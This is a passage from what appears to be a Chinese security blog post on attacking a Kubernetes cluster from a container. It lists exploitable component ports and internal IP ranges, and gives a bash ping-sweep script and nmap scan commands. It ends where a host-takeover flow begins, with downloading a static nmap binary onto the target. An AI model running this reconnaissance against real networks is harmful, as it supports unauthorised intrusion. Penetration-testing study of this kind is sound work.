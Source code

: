 集群的组件中可利用的默认端口如下：

*   8080/6443 kube-apiserver
*   10250/10255/4149 kubelet
*   2379 etcd
*   30000 dashboard
*   2375 docker api
*   10256 kube-proxy
*   9099 calico-felix

局域网地址范围分三类，以下 IP 段为内网 IP 段：

*   C 类：192.168.0.0 – 192.168.255.255
*   B 类：172.16.0.0 – 172.31.255.255
*   A 类：10.0.0.0 – 10.255.255.255

编写简单的多线程 linux shell 脚本对比 nmap 的扫描速率，代码如下：

```
#!/bin/bash
NETWORK=$1
for a in $(seq 1 255)
do
    for b in $(seq 1 255)
    do
     {
       ping -c 1 -w 1 $NETWORK.$a.$b &>/dev/null && result=0 || result=1
        if \[ "$result" == 0 \];then
            echo -e "\\033\[32;1m$NETWORK.$a.$b is up! \\033\[0m"
            echo "$NETWORK.$a.$b" >> AllHosts\_up.txt
        else
            echo -e "\\033\[;31m$NETWORK.$a.$b is down!\\033\[0m"
        fi
      } &
    done
done


```

对 A 类地址的 C 段进行扫描对比，结果如下：

执行脚本 time sh shell.sh 10.0 , 耗费了 13min41s

![](https://blog.riskivy.com/wp-content/uploads/2019/02/61.png)

使用 nmap 对存活主机探测，调整并行扫描组及探测报文并行度为最小，通过 ICMP echo 判定主机是否存活。执行命令及结果如下：  
`nmap 10.0.0.1/16 -sn -PE --min-hostgroup 1024 --min-parallelism 1024 -oG ip_scan.txt`

![](https://blog.riskivy.com/wp-content/uploads/2019/02/62.png)

对比结果，nmap 可以更快的实现对存活主机的探测。

为了获取宿主机权限，攻击流程如下：

1.  由于目标主机无法解析域名，遇到使用 nmap 需要 apt-get 安装 gcc ,python 缺少模块无法安装等问题。通过 `curl -O https://raw.githubusercontent.com/andrew-d/static-binaries/master/binaries/linux/x86_64/nmap` 下载编译好的 nmap 工具。
